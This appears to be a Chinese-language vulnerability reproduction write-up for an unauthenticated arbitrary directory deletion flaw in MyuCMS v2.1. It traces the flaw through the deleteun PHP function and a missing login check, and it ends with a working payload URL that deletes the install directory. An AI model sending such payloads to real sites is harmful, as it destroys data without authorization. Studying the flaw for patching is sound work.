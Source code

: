 MyuCMS v2.1 任意目录删除漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

因为漏洞描述是任意文件删除，所以先全文搜索 **unlink**
函数，定位到存在文件删除功能的代码段。

定位到 **application/common.php** 中的 **deleteun** 函数

![1.jpg](./resource/MyuCMSv2.1任意目录删除漏洞/media/rId24.jpg)

    function deleteun($dir_name)
    {
        $result = false;
        if (is_dir($dir_name)) { // 判断是否为目录
            if ($handle = opendir($dir_name)) { // 打开目录
                while (false !== ($item = readdir($handle))) { // 通过这个 while 遍历目录中的文件 
                    if ($item != '.' && $item != '..') {
                        if (is_dir($dir_name . DS . $item)) { // 若遍历到的文件为子目录，则递归调用deleteun
                            deleteun($dir_name . DS . $item);
                        } else {
                            unlink($dir_name . DS . $item); // 删除遍历到的文件
                        }
                    }
                }
                closedir($handle); // 关闭文件夹
                if (rmdir($dir_name)) { // 删除该目录
                    $result = true;
                }
            }
        }

        return $result;
    }

根据 **deleteun**
函数的实现代码来看，我们可以看到该函数中对传入的参数无任何限制。

然后在整个项目中搜索，看哪个文件中调用了 **deleteun** 函数。

发现总共三处两个文件调用了该函数，且这三处代码内容相同，只不过是传递给的
**deleteun**
函数的参数不同，我们可以判断出，这三处都可以触发任意目录删除漏洞。

![2.jpg](./resource/MyuCMSv2.1任意目录删除漏洞/media/rId25.jpg)

这三处的不同之处在于。**Muban.php** 继承了 **Common** 类，在 **Common**
类中实现了对于是否已经登录的验证。实现代码如下。

    public function _initialize(){
            if(!session('usermail') || !session('kouling')){
               $this->error('请登录',url('login/index')); 
               print s();
            }

        }

而 **Addons.php** 继承自 **AdminBase** 类，且初始化时执行父类
**AdminBase** 的 **\_initialize()** 方法，在 **AdminBase**
类中调用了父类 **Controller** 的 **\_initialize()** 方法。而父类的
**Controller** 的 **\_initialize();** 方法的实现内容为空。

所以 **Addons.php**
在未登录的情况下也可以访问。这意味我们不需要登录后台也可以触发任意目录删除漏洞。

### Payload

所以给出 Payload 如下，即可删除整个 **install** 目录

    Payload: http://www.0-sec.org/admin/Addons/un?info=../install

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
